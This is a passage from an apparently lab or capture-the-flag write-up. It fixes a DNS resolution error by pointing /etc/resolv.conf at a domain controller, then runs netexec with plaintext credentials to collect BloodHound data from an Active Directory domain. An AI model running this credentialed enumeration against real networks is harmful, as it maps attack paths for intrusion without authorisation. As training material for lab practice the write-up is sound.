 ```output
                    │   1314 │   │   │   assert request is not None  # needed for type checking                                                                           │                  
                    │   1315 │   │   │   done = False                                                                                                                     │                  
                    │   1316 │   │   │   while not done:                                                                                                                  │                  
                    │ ❱ 1317 │   │   │   │   (nameserver, tcp, backoff) = resolution.next_nameserver()                                                                    │                  
                    │   1318 │   │   │   │   if backoff:                                                                                                                  │                  
                    │   1319 │   │   │   │   │   time.sleep(backoff)                                                                                                      │                  
                    │   1320 │   │   │   │   timeout = self._compute_timeout(start, lifetime, resolution.errors)                                                          │                  
                    │                                                                                                                                                     │                  
                    │ /usr/lib/python3/dist-packages/dns/resolver.py:764 in next_nameserver                                                                               │                  
                    │                                                                                                                                                     │                  
                    │    761 │   │   if not self.current_nameservers:                                                                                                     │                  
                    │    762 │   │   │   if len(self.nameservers) == 0:                                                                                                   │                  
                    │    763 │   │   │   │   # Out of things to try!                                                                                                      │                  
                    │ ❱  764 │   │   │   │   raise NoNameservers(request=self.request, errors=self.errors)                                                                │                  
                    │    765 │   │   │   self.current_nameservers = self.nameservers[:]                                                                                   │                  
                    │    766 │   │   │   backoff = self.backoff                                                                                                           │                  
                    │    767 │   │   │   self.backoff = min(self.backoff * 2, 2)                                                                                          │                  
                    ╰─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯                  
                    NoNameservers: All nameservers failed to answer the query _ldap._tcp.gc._msdcs.lab.trusted.vl.communityfibre.co.uk. IN SRV: Server                                       
                    Do53:10.10.233.118@53 answered SERVFAIL                       

```

in order to sought this error we use 

```bash
sudo cp /etc/resolv.conf /etc/resolv.conf.backup
echo "nameserver 10.10.233.118" | sudo tee /etc/resolv.conf
```

now we again use it
```bash
netexec ldap 10.10.233.118 -u 'rsmith' -p 'IHateEric2' --bloodhound -c ALL  
```
output
```output
DAP        10.10.233.118   389    LABDC            [*] Windows Server 2022 Build 20348 (name:LABDC) (domain:lab.trusted.vl)
LDAP        10.10.233.118   389    LABDC            [+] lab.trusted.vl\rsmith:IHateEric2 
LDAP        10.10.233.118   389    LABDC            Resolved collection methods: objectprops, acl, psremote, group, trusts, container, localadmin, rdp, dcom, session
[20:14:32] ERROR    Could not find a Global Catalog in this domain! Resolving will be unreliable in forests with multiple domains                                                domain.py:90
           ERROR    Could not find a Global Catalog in this domain! Resolving will be unreliable in forests with multiple domains                                                domain.py:90
```